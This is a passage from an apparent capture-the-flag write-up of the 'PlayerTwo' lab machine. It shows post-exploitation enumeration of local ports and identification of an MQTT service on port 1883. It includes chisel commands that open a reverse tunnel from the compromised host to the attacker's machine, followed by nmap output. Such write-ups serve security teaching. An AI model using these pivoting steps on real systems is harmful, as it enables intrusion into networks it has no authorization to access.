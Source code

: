 
I can account for 3306 (local database, creds in the webserver directories,
checked it out during enumeration but didn’t find anything), 53 (DNS, not
uncommon localhost listener on Linux), 22 (SSH), 80 (HTTP), and 8545 (Twirp).
That leaves 1883 unaccounted for.

I first just used `curl` and `nc` to connect to it directly. Neither returned
anything (the “df” + newline on `nc` was me, and then it just returned):

    
    
    www-data@player2:/var/www/product/protobs$ nc localhost 1883  
    
    df
    www-data@player2:/var/www/product/protobs$ curl localhost:1883
    curl: (56) Recv failure: Connection reset by peer
    

I uploaded `chisel` to [create a tunnel](/2020/08/10/tunneling-with-chisel-
and-ssf-update.html) so I could scan it with `nmap`. I’ll run as server on my
kali box and client on PlayerTwo:

    
    
    root@kali:/opt/chisel# ./chisel server -p 8000 -reverse
    2020/01/24 06:29:04 server: Reverse tunnelling enabled
    2020/01/24 06:29:04 server: Fingerprint f4:91:8b:ac:f4:5d:6c:6f:c5:04:7d:07:6c:13:09:4a
    2020/01/24 06:29:04 server: Listening on 0.0.0.0:8000...
    2020/01/24 06:29:23 server: proxy#1:R:0.0.0.0:1883=>127.0.0.1:1883: Listening
    
    
    
    www-data@player2:/dev/shm$ chmod +x chisel 
    <./chisel client 10.10.14.11:8000 R:1883:127.0.0.1:1883                      
    2020/01/24 11:29:55 client: Connecting to ws://10.10.14.11:8000
    2020/01/24 11:29:55 client: Fingerprint f4:91:8b:ac:f4:5d:6c:6f:c5:04:7d:07:6c:13:09:4a
    2020/01/24 11:29:55 client: Connected (Latency 15.765675ms)
    

Now I can run `nmap` against my local 1883 and get the results from 1883 on
PlayerTwo:

    
    
    root@kali# nmap -sC -sV -p 1883 127.0.0.1
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-24 06:30 EST
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000063s latency).
    
    PORT     STATE SERVICE VERSION
    1883/tcp open  mqtt
    |_mqtt-subscribe: ERROR: Script execution failed (use -d to debug)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
    

It is an instance of the [MQTT ](http://mqtt.org/), a machine-to-machine
connectivity protocol designed to provide lightweight public/subscript
messaging.

